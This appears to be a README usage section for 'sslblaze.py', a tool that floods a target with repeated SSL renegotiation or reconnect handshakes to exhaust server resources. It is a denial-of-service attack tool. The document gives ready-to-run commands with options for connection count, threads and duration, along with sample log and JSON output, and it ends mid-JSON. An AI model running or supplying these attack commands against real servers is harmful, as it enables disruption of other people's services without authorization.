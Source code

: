 ### Basic Commands
Simulate a renegotiation attack:
```bash
python3 sslblaze.py -t example.com -m renegotiate -c 100 -d 60
```

Simulate a reconnect attack:
```bash
python3 sslblaze.py -t example.com -p 443 -m reconnect -c 50 -d 30
```

Run in quiet mode:
```bash
python3 sslblaze.py -t example.com -m renegotiate -c 100 -d 60 -q
```

### Options
- `-t, --target`: Target hostname or IP address (required).
- `-p, --port`: Target port (default: 443).
- `-m, --mode`: Attack mode: renegotiate or reconnect (default: renegotiate).
- `-c, --connections`: Number of concurrent connections (default: 100).
- `-i, --interval`: Interval between handshakes in seconds (default: 1).
- `-d, --duration`: Attack duration in seconds (default: 60).
- `-T, --threads`: Number of threads (default: 5).
- `-q, --quiet`: Log to file only.

### Features

#### Renegotiation Attack
- **Purpose**: Simulate repeated SSL handshakes to exhaust server resources.
- **Usage**:
  ```bash
  python3 sslblaze.py -t example.com -m renegotiate -c 100 -d 60
  ```
- **Output**:
  ```
  2025-05-15 16:00:00 - INFO - Starting SSLBlaze against example.com:443 in renegotiate mode
  2025-05-15 16:01:00 - INFO - Renegotiation attack to example.com:443 completed, 500 handshakes
  ```
- **Result File** (`sslblaze-output/blaze_20250515_160000.txt`):
  ```
  === SSLBlaze Results ===
  Timestamp: 2025-05-15 16:01:00
  [2025-05-15 16:01:00] Renegotiation attack to example.com:443 completed, 500 handshakes, Target=example.com:443, Mode=renegotiate, Handshakes=500, Connections=100
  ```
- **JSON File** (`sslblaze-output/blaze_20250515_160000.json`):
  ```json
  {
    "target": "example.com",
    "port": 443,
    "mode": "renegotiate",
    "connections": 100,
    "duration": 60,
    "total_handshakes": 500,
    "actions": [
      {
        "target": "example.com",
        "port": 443,
        "mode": "renegotiate",
        "handshakes": 500,
        "connections": 100,
        "status": "Renegotiation attack to example.com:443 completed, 500 handshakes",
        "timestamp": "2025-05-15 16:01:00"
      }
    ],
  ```